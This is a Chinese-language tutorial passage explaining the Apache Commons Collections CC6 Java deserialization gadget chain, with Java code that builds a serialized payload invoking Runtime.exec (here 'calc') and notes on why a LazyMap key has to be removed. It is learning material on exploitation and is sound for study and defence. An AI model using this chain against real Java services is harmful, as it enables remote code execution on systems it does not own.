 ```java
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"sssfs");
        //接着调用它的hashCode方法
        tiedMapEntry.hashCode();
```

成功执行

接下来利用HashMap反序列化的时候会计算key的hashCode从而调用它的hashCode方法

这条链类似于URLDNS那条链的原理,URLDNS中put调用hashCode会消耗掉它为-1的hashCode,这条链呢则会在put的时候调用hashCode方法,到lazyMap的get方法的时候,会给它添加一个key,导致反序列化的时候已经存在了这个key,导致进不了if循环从而无法调用transform方法

```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

所以可以通过remove移除添加进去的key

```java
Transformer[] transformers= new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer Chainedtransformer = new ChainedTransformer(transformers);


        HashMap<Object,Object> map=new HashMap<Object, Object>() ;
        
		//这里随便传递一个Transformer是为了不在put的时候执行,put完再把ChainedTransformer添加回去
        Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(123));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");


        HashMap<Object,String> map1=new HashMap();
        Class<? extends Map> lazyMapClass = lazyMap.getClass();
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);

        map.put(tiedMapEntry,"ddd");
        lazyMap.remove("aaa");

        factory.set(lazyMap,Chainedtransformer);
        SerializeTest.serialize(map);
        UnSerializeTest.unserialize("C:\\Temp\\test.bin");
```
